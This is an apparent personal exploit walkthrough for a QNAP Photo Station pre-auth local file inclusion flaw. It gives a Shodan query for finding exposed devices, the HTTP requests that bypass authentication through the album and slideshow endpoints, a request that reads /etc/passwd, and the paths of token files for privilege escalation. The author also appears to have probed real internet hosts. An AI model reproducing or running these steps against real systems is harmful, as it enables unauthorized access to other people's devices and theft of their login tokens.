

# qnap-2019-lfi-rce
### 

target: http://_**vulnerable-qnap-host**_:8080/p/api/video.php

Run shodan:

    shodan search 'Content-Length:580 "http server 1.0"' --fields ip_str,port --separator : --limit 10 > qnap_list.txt

Navigate to one:

We need `CHECK_ACCESS_CODE` pre-auth before the vulnerability. Lets try with the photo album, and preserve _this_ memory.

Check the `/photo/p/api/album.php`:

We get a 401 from response. `Not Authorized`. But we will circumvent the auth (the main point).

Now we mock a POST request. With this body: `a=setSlideshow&f=qnpocAlbum`.

_You could_ also copy the initial request from the inspector as cURL and modify that. Add `showAllAp=true;` to cookie.

    POST /photo/p/api/album.php?a=setSlideshow&f=qnpocAlbum HTTP/1.1

Just remember to use header `'Content-Type: application/x-www-form-urlencoded'`

Assert the response is `HTTP/1.1 200 OK`.
    
    <?xml version="1.0"?>
    <QDocRoot version="1.0"><status>0</status><output>cJinsP</output><timestamp>2020-05-23 12:24:04</timestamp></QDocRoot>

Our album is using the ID: `cJinsP`.

The following sets `$_SESSION['access_code']` to the access code of the album we specify `?album=cJinsP`.

Let's GET it, and retain same cookie and headers:

    GET /photo/slideshow.php?album=cJinsP HTTP/1.1

Looking at the resulting javascript response, we see an `encodeURIComponent`. This is key. We're looking for the new encoded URI Component.

You will find this in the inspector -> Elements.

### poc: pre-auth local file inclusion

Now that we have the `$_SESSION[‘access_code’]` value.

    POST /photo/p/api/video.php?album=cJinsP&a=caption&ac=MHwxfDE1OTAyNjc0Mzk=&f=UMGObv&filename=/etc/passwd

### poc: upgrade lfi to privilege escalation

Apparently the login token is stored in a <mark style="background-color: black">magic file</mark> located here <mark style="background-color: black">/etc/config/.app_token</mark>.

And PhotoStation caches a plaintext version of token_ex in `/share/Multimedia/.@__thumb/ps.app.token`

How quaint...

> todo: continue into RCE

---
## Interesting

WELP. This host was already hosed. Lol.

In the js script, I also found Ken Burns.

## Final Thoughts
I will report any vulnerabilities or issues to the respective owner(s). I wonder if this is just a honeypot. Most are nowadays.

> @caretak3r